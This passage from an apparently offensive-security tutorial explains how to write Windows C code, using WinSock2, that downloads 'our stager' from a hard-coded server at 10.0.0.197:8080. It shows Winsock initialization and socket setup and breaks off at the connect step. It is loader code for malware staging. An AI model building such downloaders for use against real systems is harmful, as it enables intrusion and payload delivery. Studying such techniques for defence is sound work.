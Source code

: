 # Using the WinSock2 Library to Download Our Stager

If you're not familiar with the <a href="https://docs.microsoft.com/en-us/windows/win32/winsock/windows-sockets-start-page-2">WinSock2 Library</a> then here's Microsoft's definition for you:

>Windows Sockets 2 (Winsock) enables programmers to create advanced Internet, intranet, and other network-capable applications to transmit application data across the wire, independent of the network protocol being used.

We need to download our stager that we created earlier and to simplify the process we can break down the download process like this:

1.  Initializing Winsock
2.  Creating a socket
3.  Connecting to the server
4.  Receiving data 

I won't go in depth about what each of the arguments mean for each function since they're are all readily available in the documentation.

### Initializing Winsock

We'll use the WSAStartup() function to initialize Winsock:

```javascript
WSADATA wsa;
//Initialize Winsock
if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0)
	{
		printf("Error initializing Winsock\n");
		exit(1);
	}
```

### Creating a Socket

The socket() function is used to create a socket. The sockaddr_in struct is used to define some required information such as the target IP address and port number:

```javascript
SOCKET s;
struct sockaddr_in cleanServer;
if((s = socket(AF_INET , SOCK_STREAM , 0 )) == INVALID_SOCKET)
	{
		printf("Could not create socket : %d" , WSAGetLastError());
	}

//Set the required members for the sockaddr_in struct
InetPtonA(AF_INET, "10.0.0.197", &cleanServer.sin_addr.s_addr); //Target IP address
cleanServer.sin_family = AF_INET; //IPv4 Protocol
cleanServer.sin_port = htons(8080); //Target port
```

### Connecting to The Server
